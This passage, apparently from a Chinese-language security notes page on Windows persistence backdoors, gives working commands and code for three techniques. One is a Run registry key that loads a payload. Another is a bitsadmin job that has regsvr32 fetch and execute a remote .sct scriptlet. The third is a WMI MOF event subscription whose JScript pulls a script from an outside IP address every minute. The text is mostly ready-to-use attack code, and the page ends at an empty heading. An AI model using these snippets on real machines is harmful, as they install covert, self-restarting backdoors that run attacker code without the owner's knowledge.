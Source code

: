 ### [](#系统类 "系统类")系统类

主要介绍基于系统类的一些后门，比如大家熟知的启动项之类

### [](#启动项 "启动项")启动项

在windows中，可以添加例如如下注册表：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

即可让机器重启后自动加载你的payload。

### [](#bitsadmin "bitsadmin")bitsadmin

bitsadmin也可以做启动项：  
bitsadmin /create backdoor  
bitsadmin /addfile backdoor \%comspec\% \%temp\%\\cmd.exe  
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe “/u /s /i:<https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct> scrobj.dll”  
bitsadmin /Resume backdoor

### [](#mof "mof")mof

```
#pragma namespace("\\\\.\\root\\subscription")   
instance of __EventFilter as $EventFilter
{
  EventNamespace = "Root\\Cimv2";
    Name  = "filtP1";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 1";
    QueryLanguage = "WQL";
};   
instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consP1";
    ScriptingEngine = "JScript";
    ScriptText = "GetObject(\"script:http://172.16.127.1:2333/aaaa\")";
};   
instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};

mofcomp 1.mof
```

### [](#杂 "杂")杂
